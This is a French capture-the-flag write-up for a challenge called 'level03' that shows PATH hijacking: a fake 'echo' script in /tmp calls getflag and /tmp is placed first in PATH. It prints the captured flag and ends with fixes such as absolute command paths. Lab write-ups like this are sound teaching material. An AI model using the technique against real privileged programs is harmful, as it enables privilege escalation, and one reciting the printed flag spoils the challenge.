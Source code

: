 # Rapport de Vulnérabilité : Hijacking de commande via modification de la variable d’environnement `$PATH`

## Description

Cette faille repose sur la redéfinition de la variable d’environnement `$PATH` afin de forcer l’exécution d’un faux binaire `echo`. Le programme `./level03` exécute la commande `echo` sans spécifier son chemin absolu. En plaçant un faux script `echo` dans un répertoire contrôlé (comme `/tmp`) et en modifiant `$PATH`, il est possible de détourner le comportement du programme pour exécuter une commande arbitraire, comme `getflag`.

## Comment Exploiter la Faille

### Étape 1 : Créer un faux script `echo`

```bash
echo -e '#!/bin/sh\n/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
```
on peut aussi simplement faire :
```bash
echo "/bin/getflag" > /tmp/echo
```
> Ce script exécute simplement `getflag` à la place de `echo`.

### Étape 2 : Modifier le `$PATH`

Placer `/tmp` en tête du `PATH` pour forcer le programme à utiliser notre faux `echo` :

```bash
export PATH=/tmp:$PATH
```

### Étape 3 : Exécuter le binaire

```bash
./level03
```

Si le programme utilise `echo` sans chemin absolu, il exécutera `/tmp/echo`, déclenchant alors la commande `getflag`.

### Étape 4 : Récupération du flag

Le flag s'affiche directement après exécution :

```bash
getflag
```

**Flag obtenu :**

```
qi0maab88jeaj46qoumi7maus
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Utiliser des chemins absolus pour les commandes système** : `/bin/echo` au lieu de `echo`.
* **Restreindre les droits d'exécution** : Empêcher l'exécution de scripts placés dans des dossiers temporaires comme `/tmp`.

## Conclusion

Cette faille démontre les risques liés à l’utilisation non sécurisée des variables d’environnement dans les programmes. Une simple modification de `$PATH` permet de détourner des commandes système et d’exécuter des instructions arbitraires. Il est impératif de coder défensivement en utilisant des chemins absolus pour les appels système sensibles.

---
